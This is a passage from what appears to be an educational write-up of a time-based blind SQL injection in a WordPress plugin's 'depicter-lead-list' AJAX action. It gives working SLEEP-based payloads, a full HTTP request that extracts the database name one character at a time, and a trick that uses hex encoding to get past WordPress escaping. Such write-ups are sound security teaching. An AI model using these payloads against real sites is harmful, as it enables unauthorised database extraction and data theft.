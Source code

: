 Decoded payload:

```sql
999%' AND (SELECT 1 FROM (SELECT SLEEP(5))a)) -- -
```

This makes part of the query:

```sql
AND (lf.value like '999%' AND (SELECT 1 FROM (SELECT SLEEP(5))a)) -- ' OR leadtable.content_name like '999%' AND (SELECT 1 FROM (SELECT SLEEP(5))a)) #')
```

![response time](resp_time.png "Response time showing the payload execution")

👉 The delayed response confirms the injection worked.

**Subquery in FROM clause**: The subquery acts as a temporary table, forcing MySQL to execute it first, delaying the main query execution.

### Get First Letter of Database Name

To fully dump data, we must first confirm we can extract at least one character of the database name.

Send a request with the following **SQLi payload**:

```http
GET /wp-admin/admin-ajax.php?action=depicter-lead-list&s=999%25'+AND+(SELECT+1+FROM+(SELECT+IF(SUBSTRING(SCHEMA(),1,1)=0x77,SLEEP(5),1))a))+--+-+ HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```

`SUBSTRING()` extracts the first letter of the **database name**, and `IF()` triggers `SLEEP(5)` if the first character equals `0x77` (`'w'`).

Hex encoding (`0x77`) is used because `s` originates from a **GET** parameter and is escaped by [magic quotes](https://patchstack.com/academy/wordpress/vulnerabilities/sql-injection/#magic-quotes) and `sanitize_text_field` in WordPress.
